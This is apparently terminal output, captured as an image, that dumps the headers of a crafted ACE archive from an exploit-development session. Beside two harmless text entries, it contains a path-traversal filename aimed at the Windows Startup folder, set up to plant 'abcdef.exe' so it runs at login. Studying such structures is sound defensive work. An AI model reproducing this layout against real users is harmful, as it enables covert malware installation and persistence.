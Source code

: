 ```
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x8965
    hdr_size    40
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    6
    origsize    6
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0xc9c5cfdf
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'hello.txt'
    comment     b''
    ntsecurity  b''
    reserved2   b''
header
    hdr_crc     0x3161
    hdr_size    40
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    6
    origsize    6
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x22c79e57
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'world.txt'
    comment     b''
    ntsecurity  b''
    reserved2   b''
header
    hdr_crc     0x14c6
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x6735f66e
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\abcdef.exe'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```